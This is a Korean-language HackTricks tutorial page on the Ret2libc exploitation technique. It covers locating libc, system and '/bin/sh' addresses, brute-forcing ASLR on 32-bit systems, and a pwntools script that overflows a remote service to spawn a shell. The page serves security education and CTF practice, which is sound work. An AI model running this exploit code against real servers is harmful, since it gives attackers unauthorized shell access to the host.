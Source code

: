 # Ret2lib

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## **기본 정보**

**Ret2Libc**의 본질은 취약한 프로그램의 실행 흐름을 공유 라이브러리(예: **system**, **execve**, **strcpy**) 내의 함수로 리다이렉트하는 것입니다. 이는 공격자가 스택에 제공된 셸코드를 실행하는 대신 페이로드를 조작하여 스택의 반환 주소를 원하는 라이브러리 함수를 가리키도록 수정하고, 호출 규약에 따라 필요한 인수를 올바르게 설정하도록 배열합니다.

### **예시 단계 (간소화)**

* 호출할 함수의 주소(예: system) 및 호출할 명령(e.g. /bin/sh)을 가져옵니다.
* 첫 번째 인수를 가리키는 ROP 체인을 생성하여 명령 문자열을 가리키고 함수로 실행 흐름을 전달합니다.

## 주소 찾기

* 현재 시스템에서 사용하는 `libc`를 가정하면 메모리에 로드될 위치를 다음과 같이 찾을 수 있습니다:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

ASLR가 libc의 주소를 변경하는지 확인하려면 다음을 수행할 수 있습니다:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* 사용된 libc를 알면 `system` 함수의 오프셋을 찾을 수도 있습니다:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* 사용된 libc를 알면 `/bin/sh` 문자열 함수의 오프셋을 찾을 수도 있습니다:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF 사용

사용 중인 libc를 알고 있다면, Peda 또는 GEF를 사용하여 **system** 함수, **exit** 함수 및 문자열 **`/bin/sh`**의 주소를 얻을 수도 있습니다:
```
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps 사용

프로세스가 **매번 대화할 때마다 자식 프로세스를 생성**하는 경우 해당 파일을 **읽어보세요** (아마도 루트 권한이 필요할 것입니다).

여기에서는 프로세스 내부에 **libc가 정확히 어디에 로드되어 있는지**와 **프로세스의 각 자식에 로드될 위치**를 찾을 수 있습니다.

![](<../../../../.gitbook/assets/image (95).png>)

이 경우 **0xb75dc000**에 로드됩니다 (이것이 libc의 기본 주소가 될 것입니다)

## 알 수 없는 libc

바이너리가 로드하는 libc를 **알 수 없을 수도 있습니다** (접근할 수 없는 서버에 위치할 수도 있기 때문입니다). 이 경우 취약점을 악용하여 **일부 주소를 노출하고 어떤 libc 라이브러리가 사용 중인지** 찾을 수 있습니다:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

또한 이에 대한 pwntools 템플릿을 다음에서 찾을 수 있습니다:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## 32비트에서 ASLR 우회

이러한 무차별 대입 공격은 **32비트 시스템에만 유용**합니다.

* 공격이 로컬인 경우, libc의 기본 주소를 무차별 대입할 수 있습니다 (32비트 시스템에 유용):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* 원격 서버를 공격하는 경우, 인자로 10을 전달하여 `libc` 함수 `usleep`의 주소를 **브루트 포스**할 수 있습니다. **서버가 응답하는 데 10초 더 걸린다면**, 이 함수의 주소를 찾은 것입니다.

## 원 가젯

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib 코드 예시

이 예시에서 ASLR 브루트 포스가 코드에 통합되어 있으며 취약한 이진 파일이 원격 서버에 위치해 있습니다:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib 코드 예제

다음 예제를 확인하십시오:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (또는 puts)

이를 통해 `printf`/`puts`를 호출하여 특정 데이터를 인수로 사용하여 프로세스에서 **정보를 누출**할 수 있습니다.

## Ret2printf

이는 기본적으로 **Ret2lib를 남용하여 `printf` 형식 문자열 취약점으로 변환**하는 것을 의미하며, `ret2lib`를 사용하여 printf를 호출하여 취약점을 이용할 값을 전달합니다 (의미는 없지만 가능합니다):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}
